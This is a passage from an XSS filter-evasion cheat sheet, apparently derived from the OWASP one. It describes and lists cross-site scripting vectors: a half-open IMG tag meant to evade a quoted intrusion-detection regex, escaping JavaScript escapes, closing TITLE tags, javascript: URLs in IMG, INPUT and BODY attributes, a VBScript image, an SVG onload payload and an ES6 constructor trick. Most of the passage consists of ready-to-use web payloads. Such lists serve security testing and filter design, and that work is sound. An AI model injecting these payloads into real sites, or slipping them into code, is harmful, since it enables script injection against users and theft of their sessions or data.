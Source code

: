 (Submitted by Łukasz Pilorz)
#### Half Open HTML/JavaScript XSS Vector¶
Unlike Firefox, the IE rendering engine (Trident) doesn't add extra data to your page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this XSS vector. Even though there is no close \> tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following network intrusion detection system (NIDS) regex: /((\\%3D)|(=))\[^\\n\]\*((\\- %3C)|\<)\[^\\n\]+((\\%3E)|\>)/ because it doesn't require the end \>. As a side note, this was also affective against a real world XSS filter using an open ended <IFRAME tag instead of an <IMG tag.
<IMG SRC="`<javascript:alert>`('XSS')"

#### Escaping JavaScript Escapes¶
If an application is written to output some user information inside of a JavaScript (like the following: <SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>) and you want to inject your own JavaScript into it but the server side application escapes certain quotes, you can circumvent that by escaping their escape character. When this gets injected it will read <SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT> which ends up un-escaping the double quote and causing the XSS vector to fire. The XSS locator uses this method:
\";alert('XSS');//

An alternative, if correct JSON or JavaScript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:
</script><script>alert('XSS');</script>

#### End Title Tag¶
This is a simple XSS vector that closes <TITLE> tags, which can encapsulate the malicious cross site scripting attack:
</TITLE><SCRIPT>alert("XSS");</SCRIPT>

##### INPUT Image¶
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

##### BODY Image¶
<BODY BACKGROUND="javascript:alert('XSS')">

##### IMG Dynsrc¶
<IMG DYNSRC="javascript:alert('XSS')">

##### IMG Lowsrc¶
<IMG LOWSRC="javascript:alert('XSS')">

#### List-style-image¶
This esoteric attack focuses on embedding images for bulleted lists. It will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful XSS vector:
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

#### VBscript in an Image¶
<IMG SRC='vbscript:msgbox("XSS")'>

#### SVG Object Tag¶
<svg/onload=alert('XSS')>

#### ECMAScript 6¶
Set.constructor`alert\x28document.domain\x29
